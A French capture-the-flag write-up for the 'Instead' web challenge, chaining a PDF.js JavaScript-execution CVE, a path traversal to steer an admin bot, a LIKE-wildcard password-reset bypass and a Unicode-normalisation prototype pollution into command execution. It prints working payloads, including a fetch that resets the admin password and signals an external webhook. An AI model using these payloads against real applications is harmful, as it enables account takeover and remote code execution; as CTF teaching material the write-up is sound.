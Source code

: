 # Instead 
> Auteur : Al-oxos

## Solve

Le challenge se résout en découvrant et utilisant une suite de vulnérabilités/mauvaises configurations qui chainées les unes avec les autres permettent de RCE :

#### Exécution de JavaScript via PDF.js (CVE-2024-4367)
La version de PDF.js utilisée est vulnérable à la CVE-2024-4367, permettant d'exécuter du JavaScript contenu dans un fichier PDF et donc de XSS tout utilisateur qui visiterait le cv que nous avons uploadé.

#### Contrôle de la navigation du bot
Le code permet de forcer le bot à visiter n'importe quelle route de l'application via une CSPT, bien que le bot ne visite initialement que le profil des utilisateurs (après report). Nous pouvons donc forcer le bot à accéder à notre PDF malicieux uploadé préalablement.

#### Réinitialisation du mot de passe via reset password et requête LIKE 
Une faille dans le contrôle du token de réinitialisation permet d'utiliser le caractère % pour matcher la requête LIKE. Ainsi, en envoyant un token partiel, nous pouvons réinitialiser le mot de passe du compte administrateur. En chainant cela avec la XSS précédente, nous pouvons modifier le mot de passe de l'administrateur et obtenir son compte.

#### Prototype pollution de le dashboard admin
Une fois administrateur, il est possible de modifier la configuration du dashboard (notamment la visibilité du healtcheck ou non). Cette action déclenche un merge qui parrait sécurisé au premier abord mais en raison de l'utilisation de la fonction normalize, il est possible de contourner simplement les filtres sur `__proto__, prototype et constructor`
Il suffit alors d'envoyer une requete de modification de la configuration en passant debug à true et en réalisant une prototype pollution en utilisant des char unicode qui une fois normalisé donneront `__proto__` et ainsi pouvoir réécrire le prototype du debugHealtcheck pour obtenir une exécution de code arbitraire.

## Exploitation

La description du challenge ne nous indique rien de très intéressant, mais nous disposons du code source de l'application WEB.

Maintenant que nous savons qu'il est possible d'utiliser la **CVE-2024-4367** dans PDF.js afin d'exécuter du javascript (on peut utiliser des tools publiques pour générer le pdf ou le faire soit même en suivant les articles présentant la vulnérabilité), que nous avons moyen de faire visiter n'importe quelle route de l'application à notre bot et que nous avons la possibilité de réinitialiser son mot de passe en utilisant un % afin de matcher la requete like, nous pouvons créer un fichier pdf malveillant avec un payload de la forme :

```javascript
// Code vulnerable lors du check du token de reset-password en raison d'un like trop permissif
const user = await this.findOne({
      where: {
        username,
        resetToken: { [Op.like]: providedToken },
        resetTokenExpiration: { [Op.gte]: new Date() }
      }
});
```

```javascript
fetch('/profile/reset-password',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},credentials:'include',body:'newPassword='+encodeURIComponent('Pwned!')+'&resetToken=%'}).then(r=>{if(r.ok){document.location='https://yoursite?d=PasswordChanged';}});
```

Une CSPT est possible sur la route de report car la regex ne match qu'un UUIDv4 mais il est possible de mettre ce que l'on veut derrière : 

```javascript
const id = req.params.id;
  if (!/^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}/i.test(id)) { //CSPT ici
    return res.status(400).json({ error: 'L\'ID doit être un UUIDv4.' });
}
```

En utilisant la CSPT, nous pouvons alors faire visiter à notre bot le cv malveillant que nous avons uploadé au préalable :

```
GET /user/report/id_admin_user%2f..%2f..%2fcv%2fid_du_pdf HTTP/1.1
```

Si tout s'est bien passé, nous devrions recevoir un message sur notre webhook nous indiquant que le mot de passe a été changé et nous pouvons nous connecter au compte administrateur avec le mot de passe `pwned!` comme nous l'avons définie dans notre script.

Une fois connecté en tant qu'admin, une nouvelle route est disponible et permet d'accéder au dashboard administrateur. Depuis ce dashboard, nous pouvons modifier la configuration du dashboard et notamment la valeur debug qu'il faudra passer à true. Il est également nécessaire de réussir à définir service.debugHealthcheck ce qui pourrait mener à exécuter le code de notre choix derrière et donc à avoir une rce. Cela est possible via une prototype pollution car la variable debugHealthcheck n'est pas définie par défaut grâce au commentaires.

```javascript
let service = {
    /* On suit les bonnes pratiques et on commentes le debug juste au cas ou
       debugHealthcheck: "echo 'Service en cours de maintenance'" */
};

const getHealthcheckCommand = (req, res) => {
    if (!adminConfig.showOption.display) {
        return "echo Service désactivé";
    }
    if(adminConfig.debug) {
        if (service.debugHealthcheck && service.debugHealthcheck !== "") {
            return service.debugHealthcheck;
        }
    }
    return healthcheck;
};
```

En analysant la fonction de merge custom créé, nous voyons qu'il est possible de contourner les filtres en place grâce à l'utilisation du normalize. Un payload fonctionnel pour obtenir le flag serait ainsi :

```javascript
export const SafeMerge = (target, source) => {
  Object.keys(source).forEach(Key => {
    if (["__proto__", "prototype", "constructor"].includes(Key)) return;
    const escKey = Key.normalize("NFKC"); // le normalize ici introduit une vulnérabilité
    const sourceValue = source[Key];
    if (typeof target[escKey] !== "undefined" && typeof sourceValue === "object" && sourceValue !== null) {
      target[escKey] = SafeMerge(target[escKey], sourceValue);
    } else {
      target[escKey] = sourceValue;
    }
  });
  return target;
}
```

```json
{
    "debug": true,
    "__proto_\uFF3F": {
        "debugHealthcheck": "cat flag.txt"
    }
}
```

# Flag
BZHCTF{Fr0m_PDF_t0_RC3_s0metim3s_1ts_th4t_ea5y}